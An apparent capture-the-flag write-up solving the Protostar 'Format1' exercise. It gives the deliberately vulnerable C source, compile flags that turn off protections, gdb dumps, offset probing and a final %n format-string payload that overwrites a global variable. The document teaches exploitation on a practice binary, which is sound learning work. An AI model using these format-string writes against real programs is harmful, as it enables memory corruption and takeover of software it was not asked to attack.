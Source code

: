 ## Protostar-Format1 Solution

### 1. Introduction

This is a poc solution for the "Format1" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419031451/https://exploit-exercises.com/protostar/format1/](https://web.archive.org/web/20170419031451/https://exploit-exercises.com/protostar/format1/) 
 
**Hints:**
* This level shows how format strings can be used to modify arbitrary memory locations.

* objdump -t is your friend, and your input string lies far up the stack :)

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o format_1 format_1.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb

1. Silently (-q) start with gdb.
2. Disassemble the main and vuln functions.
3. Check address of the target variable.

It's not easy to overwrite target variable since it's far away from stack as mentioned on "Hints".

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x08048475 <+0>:	push   ebp
   0x08048476 <+1>:	mov    ebp,esp
   0x08048478 <+3>:	and    esp,0xfffffff0
   0x0804847b <+6>:	sub    esp,0x10
   0x0804847e <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048481 <+12>:	add    eax,0x4
   0x08048484 <+15>:	mov    eax,DWORD PTR [eax]
   0x08048486 <+17>:	mov    DWORD PTR [esp],eax
   0x08048489 <+20>:	call   0x804844d <vuln>
   0x0804848e <+25>:	leave  
   0x0804848f <+26>:	ret    
End of assembler dump.
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0804844d <+0>:	push   ebp
   0x0804844e <+1>:	mov    ebp,esp
   0x08048450 <+3>:	sub    esp,0x18
   0x08048453 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048456 <+9>:	mov    DWORD PTR [esp],eax
   0x08048459 <+12>:	call   0x8048310 <printf@plt>
   0x0804845e <+17>:	mov    eax,ds:0x804a028
   0x08048463 <+22>:	test   eax,eax
   0x08048465 <+24>:	je     0x8048473 <vuln+38>
   0x08048467 <+26>:	mov    DWORD PTR [esp],0x8048520
   0x0804846e <+33>:	call   0x8048320 <puts@plt>
   0x08048473 <+38>:	leave  
   0x08048474 <+39>:	ret    
End of assembler dump.
(gdb) b main
(gdb) r aaaaaa
Starting program: format_1 aaaaaa
Breakpoint 1, main (argc=2, argv=0xffffd194) at format_1.c:19
19	  vuln(argv[1]);

(gdb) i address target
Symbol "target" is static storage at address 0x804a028.
```

Target address in the little-endian format = **\x28\xa0\x04\x08**

Let's check what happens if we modify the program flow.

```nasm
$ gdb -q format_1
Reading symbols from format_1...done.
(gdb) b *0x0804845e
Breakpoint 1 at 0x804845e: file format_1.c, line 12.
(gdb) r AAAAAA
Starting program:format_1 AAAAAA

Breakpoint 1, vuln (string=0xffffd38e "AAAAAA") at format_1.c:12
12	  if(target) {
(gdb) si
0x08048463	12	  if(target) {
(gdb) disas
Dump of assembler code for function vuln:
   0x0804844d <+0>:	push   ebp
   0x0804844e <+1>:	mov    ebp,esp
   0x08048450 <+3>:	sub    esp,0x18
   0x08048453 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048456 <+9>:	mov    DWORD PTR [esp],eax
   0x08048459 <+12>:	call   0x8048310 <printf@plt>
   0x0804845e <+17>:	mov    eax,ds:0x804a028
=> 0x08048463 <+22>:	test   eax,eax
   0x08048465 <+24>:	je     0x8048473 <vuln+38>
   0x08048467 <+26>:	mov    DWORD PTR [esp],0x8048520
   0x0804846e <+33>:	call   0x8048320 <puts@plt>
   0x08048473 <+38>:	leave  
   0x08048474 <+39>:	ret    
End of assembler dump.
(gdb)  set $eax=1
(gdb) i r eax
eax            0x1	1
(gdb) c
Continuing.
AAAAAAyou have modified the target :)
[Inferior 1 (process 3336) exited with code 040]
```

It's also possible to manipulate flags or editing binary itself via hex editor...

#### 2.2 Quick Solution
 
We found that **\x28\xa0\x04\x08** is the target variable address.

Our plan is to overwrite values on the target variable address. Let's start by checking offset, I went with blackbox approach this time since I did whitebox on stack solutions enough.

The input parameter of printf() is stored on the stack, but it's not in the same stack frame. 
It's obvious that there is a format string vulnerability as seen the output below:

```
$ ./format_1 aaaaaaaaaaaa
aaaaaaaaaaaa
$ ./format_1 %d
47
```

If the string contains a format specifier, then argument is fetched from stack. 
Let's find the offset by increasing the number of inputs until we see our input.

```
$ ./format_1 $(python -c 'print "AAAAAA"+"%x|"*200' ) | grep 41414141
AAAAAA2f|804a000|80484e2|2|ffffcf74|ffffced8|804848e|ffffd148|f7ffd000|804849b|f7fbc000|8048490|0|0|f7e2bad3|2|ffffcf74|ffffcf80|f7feae6a|2|ffffcf74|ffffcf14|804a018|804822c|f7fbc000|0|0|0|1e9576cb|247d92db|0|0|0|2|8048350|0|f7ff0660|f7e2b9e9|f7ffd000|2|8048350|0|8048371|8048475|2|ffffcf74|8048490|8048500|f7feb300|ffffcf6c|1c|2|ffffd13d|ffffd148|0|ffffd3a7|ffffd3b2|ffffd3c4|ffffd3da|ffffd3eb|ffffd418|ffffd435|ffffd444|ffffd479|ffffd484|ffffd494|ffffd4ab|ffffd4bc|ffffd4ce|ffffd512|ffffd546|ffffd575|ffffd57c|ffffda9d|ffffdad7|ffffdb0b|ffffdb3b|ffffdb8d|ffffdbc0|ffffdc04|ffffdc62|ffffdc79|ffffdc8b|ffffdcac|ffffdcb5|ffffdcd3|ffffdce7|ffffdcfe|ffffdd0f|ffffdd1e|ffffdd54|ffffdd66|ffffdd83|ffffdd95|ffffddaf|ffffddbe|ffffddcb|ffffddd3|ffffdde2|ffffde0e|ffffde18|ffffde32|ffffde81|ffffde93|ffffdecf|ffffdeef|ffffdef9|ffffdf0e|ffffdf2d|ffffdf38|ffffdf52|ffffdf65|ffffdf87|ffffdfa8|ffffdfc1|ffffdfe0|0|20|f7fdacd0|21|f7fda000|10|1f8bfbff|6|1000|11|64|3|8048034|4|20|5|9|7|f7fdc000|8|0|9|8048350|b|3e8|c|3e8|d|3e8|e|3e8|17|0|19|ffffd11b|1f|ffffdfed|f|ffffd12b|0|0|a000000|5bad0c9a|5b9a7084|fa07f5bd|6973cada|363836|0|0|0|662f2e00|616d726f|315f74===>|41414141| <===78254141|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|78257c78|7c78257c|257c7825|
```

Okay, whether I changed number of %x format specifier, it was not helpful. So I used following to find right value.

```
$ ./format_1 $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"+"%x|"*181' )
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH2f|804a000|80484e2|2|ffffcf74|ffffced8|804848e|ffffd158|f7ffd000|804849b|f7fbc000|8048490|0|0|f7e2bad3|2|ffffcf74|ffffcf80|f7feae6a|2|ffffcf74|ffffcf14|804a018|804822c|f7fbc000|0|0|0|a1424fd9|9baaabc9|0|0|0|2|8048350|0|f7ff0660|f7e2b9e9|f7ffd000|2|8048350|0|8048371|8048475|2|ffffcf74|8048490|8048500|f7feb300|ffffcf6c|1c|2|ffffd14d|ffffd158|0|ffffd398|ffffd3a3|ffffd3b5|ffffd3cb|ffffd3dc|ffffd409|ffffd426|ffffd435|ffffd46a|ffffd475|ffffd485|ffffd49c|ffffd4ad|ffffd4bf|ffffd503|ffffd537|ffffd566|ffffd56d|ffffda8e|ffffdac8|ffffdafc|ffffdb2c|ffffdb7e|ffffdbb1|ffffdbf5|ffffdc53|ffffdc6a|ffffdc7c|ffffdc9d|ffffdca6|ffffdcc4|ffffdcd8|ffffdcef|ffffdd00|ffffdd0f|ffffdd45|ffffdd57|ffffdd74|ffffdd86|ffffdda0|ffffddaf|ffffddbc|ffffddc4|ffffddd3|ffffddff|ffffde09|ffffde23|ffffde72|ffffde84|ffffdec0|ffffdee0|ffffdeea|ffffdeff|ffffdf1e|ffffdf29|ffffdf43|ffffdf56|ffffdf78|ffffdf99|ffffdfb2|ffffdfd1|ffffdfe0|0|20|f7fdacd0|21|f7fda000|10|1f8bfbff|6|1000|11|64|3|8048034|4|20|5|9|7|f7fdc000|8|0|9|8048350|b|3e8|c|3e8|d|3e8|e|3e8|17|0|19|ffffd12b|1f|ffffdfed|f|ffffd13b|0|0|0|0|0|a000000|c782b05e|f9132f6f|c100e28a|697e9cad|363836|0|0|0|662f2e00|616d726f|315f74|41414141|42424242|43434343|44444444|45454545|46464646|47474747|48484848|
```

Now, let's use %n format specifier instead of %x to write. It is used to get the number of characters before **%n**.
Following info is from printf(3)'s manual page.
```
n      The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument.  No argument is converted.

```
$ ./format_1 $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"+"%x|"*181' )
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH2f|804a000|80484e2|2|ffffcf74|ffffced8|804848e|ffffd158|f7ffd000|804849b|f7fbc000|8048490|0|0|f7e2bad3|2|ffffcf74|ffffcf80|f7feae6a|2|ffffcf74|ffffcf14|804a018|804822c|f7fbc000|0|0|0|a1424fd9|9baaabc9|0|0|0|2|8048350|0|f7ff0660|f7e2b9e9|f7ffd000|2|8048350|0|8048371|8048475|2|ffffcf74|8048490|8048500|f7feb300|ffffcf6c|1c|2|ffffd14d|ffffd158|0|ffffd398|ffffd3a3|ffffd3b5|ffffd3cb|ffffd3dc|ffffd409|ffffd426|ffffd435|ffffd46a|ffffd475|ffffd485|ffffd49c|ffffd4ad|ffffd4bf|ffffd503|ffffd537|ffffd566|ffffd56d|ffffda8e|ffffdac8|ffffdafc|ffffdb2c|ffffdb7e|ffffdbb1|ffffdbf5|ffffdc53|ffffdc6a|ffffdc7c|ffffdc9d|ffffdca6|ffffdcc4|ffffdcd8|ffffdcef|ffffdd00|ffffdd0f|ffffdd45|ffffdd57|ffffdd74|ffffdd86|ffffdda0|ffffddaf|ffffddbc|ffffddc4|ffffddd3|ffffddff|ffffde09|ffffde23|ffffde72|ffffde84|ffffdec0|ffffdee0|ffffdeea|ffffdeff|ffffdf1e|ffffdf29|ffffdf43|ffffdf56|ffffdf78|ffffdf99|ffffdfb2|ffffdfd1|ffffdfe0|0|20|f7fdacd0|21|f7fda000|10|1f8bfbff|6|1000|11|64|3|8048034|4|20|5|9|7|f7fdc000|8|0|9|8048350|b|3e8|c|3e8|d|3e8|e|3e8|17|0|19|ffffd12b|1f|ffffdfed|f|ffffd13b|0|0|0|0|0|a000000|c782b05e|f9132f6f|c100e28a|697e9cad|363836|0|0|0|662f2e00|616d726f|315f74|41414141|42424242|43434343|44444444|45454545|46464646|47474747|48484848|

$ ./format_1 $(python -c 'print "AAAABBBBCCCCDDDDEEEEFFFFGGGG" + "\x28\xa0\x04\x08" + "%x|"*181 + "%n"' )

It did not work after severak attempts and analysis then I switched back to ubuntu 20.04 again;

```
$ objdump -t ./format_1 | grep target
0804c024 g     O .bss	00000004              target

gdb-peda$ r $(python -c 'print "A"*8+"\x24\xc0\x04\x08"+"A"*8+"%175$x"')
Starting program: format_1 $(python -c 'print "A"*8+"\x24\xc0\x04\x08"+"A"*8+"%175$x"')
AAAAAAAA$AAAAAAAA804c024[Inferior 1 (process 8049) exited normally]
```

#### 2.3 Final PoC

```
$(python -c 'print "\x24\xc0\x04\x08"+"%166$x"')
$804c024

$(python -c 'print "\x24\xc0\x04\x08"+"%166$n"')
$you have modified the target :)
 ```
